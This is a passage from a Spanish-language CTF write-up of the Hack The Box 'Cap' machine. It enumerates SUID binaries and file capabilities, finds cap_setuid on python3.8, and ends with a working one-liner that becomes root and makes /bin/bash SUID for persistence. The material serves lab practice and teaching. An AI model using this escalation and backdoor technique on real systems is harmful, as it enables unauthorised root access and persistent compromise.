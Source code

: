 Como vemos, solo existen 2 usuarios a nivel de sistema: **root** y **nathan**, por lo tanto no tenemos que realizar escalada de privilegios horizontal, si no únicamente vertical.

Enumeramos posibles archivos que tengan asignado permisos **SUID**, tampoco obtenemos gran cosa, ninguno interesante que nos permite la escalada:

```bash
nathan@cap:~$ find / -perm /4000 2>/dev/null | grep -v snap
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

Enumeramos las posibles **capabilities** que estén asignadas a binarios del sistema (con el nombre de la máquina **CAP** ya tendríamos que ir a tiro hecho, pero vamos a suponer que la máquina no se llama tal cual xD):

```bash
 nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Bueno, como vemos tenemos asignada la capability **cap\_setuid** al binario de **python3.8**. La escalada de privilegios va a ser muy muy facil:

Tendremos que ejecutar python3.8 e importar la librería OS y asignarnos el permiso SUID 0 para operar como usuario privilegiado **root**.

Cuando tenemos este tipo de escaladas, a mi me gusta personalmente asignar permisos SUID al binario BASH para así tener persistencia en caso de desconexión, etc. Esto no lo recomiendo si estáis realizando los laboratorios free de la plataforma HTB ya que puede perjudicar a otros usuarios que estén realizando la misma máquina que vosotros, en mi caso tengo el VIP de HTB y las instancias de las máquinas son personales.

Bueno, vamos allá:

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("chmod 4755 /bin/bash")'
```
